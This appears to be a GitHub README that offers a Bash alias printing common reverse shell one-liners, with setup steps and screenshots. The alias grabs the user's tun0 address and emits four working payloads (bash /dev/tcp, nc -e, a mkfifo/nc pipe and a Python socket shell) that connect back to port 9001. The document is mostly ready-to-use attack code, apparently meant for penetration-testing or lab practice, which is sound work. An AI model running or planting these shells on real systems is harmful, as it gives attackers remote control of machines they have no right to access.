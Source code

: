 # Set a Bash Alias for Common Reverse Shell's
```bash
alias reverse="arg1=$(ip -f inet addr show tun0 | grep -Po 'inet \K[\d.]+'); printf \"bash -i >& /dev/tcp/\$arg1/9001 0>&1\"; printf \"\n\nnc -e /bin/sh \$arg1 9001\"; printf \"\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \$arg1 9001 >/tmp/f\";printf \"\n\npython -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"\$arg1\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n\""
```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse</b>"

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/4gWwukP.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/SSu6L0r.png">
<br>
<br>
<b>Please feel free to modify this!</b>
